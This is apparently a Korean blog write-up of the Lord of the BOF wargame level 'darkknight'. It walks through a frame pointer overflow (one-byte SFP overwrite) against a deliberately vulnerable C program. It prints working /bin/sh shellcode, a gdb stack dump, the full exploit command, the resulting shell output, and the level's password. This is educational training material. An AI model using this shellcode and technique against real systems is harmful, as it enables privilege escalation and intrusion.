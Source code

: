 ```yaml
---
layout: post
title:  "[LOB]Level12. darkknight"
subtitle:   "[LOB]golem → darkknight"
categories: writeup
tags: lob darkknight level12

---
```


# golem → darkknight

## keyword : sfp

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkknight
        - FPO
*/
#include <stdio.h>
#include <stdlib.h>

void problem_child(char *src)
{
	char buffer[40];
	strncpy(buffer, src, 41);
	printf("%s\n", buffer);
}

main(int argc, char *argv[])
{
	if(argc<2){
		printf("argv error\n");
		exit(0);
	}

	problem_child(argv[1]);
}
```

shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80



problem_child 함수를 보면 41바이트만 복사하게 된다.

힌트에 나왔듯이 SFP주소에 1바이트만 Overflow 시킬수 있는 공격이 FPO(Frame Pointer Overflow) 공격이다.

SPF의 1바이트를 변경시키면 근처 스택 주소로 SFP를 변조 시킬 수 있다.



여기서 스택주소로 변경시킬 때 중요한 점은 SFP에 [원하는 주소-4] 주소를 넣어야 된다는 점이다.

그 이유는 함수가 끝날 때, leave - ret 순서로 종료하게 되게 때문이다.



```sh
(gdb) x/32x $ebp-40
0xbffffaf0:	0xbffffb18	0x4000a970	0x400f855b	0x08049530
0xbffffb00:	0x4000ae60	0xbffffb64	0xbffffb18	0x0804842b
0xbffffb10:	0x0804951c	0x08049530	0xbffffb38	0x400309cb
0xbffffb20:	0x00000001	0xbffffb64	0xbffffb6c	0x40013868
0xbffffb30:	0x00000001	0x08048390	0x00000000	0x080483b1
0xbffffb40:	0x0804846c	0x00000001	0xbffffb64	0x080482e4
0xbffffb50:	0x080484dc	0x4000ae60	0xbffffb5c	0x40013e90
0xbffffb60:	0x00000001	0xbffffc61	0x00000000	0xbffffc7a
```



```sh
[golem@localhost golem]$ ./darkknight `python -c 'print "\x90"*16+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\xf0"'`
����������������1�Ph//shh/bin��PS�ᙰ
                                    ̀�����M�������	@
bash$ my-pass
euid = 512
new attacker
bash$ id
uid=511(golem) gid=511(golem) euid=512(darkknight) egid=512(darkknight) groups=511(golem)
```

sfp의 끝주소를 '\xf0'으로 변경시키고, NOP와 쉘코드를 넣어준다.

> 만약 ebp-40에 바로 쉘코드를 넣었다면 **\xf0 - 4 한 값**을 넣어야 한다. 



##### **darkknight / new attacker**

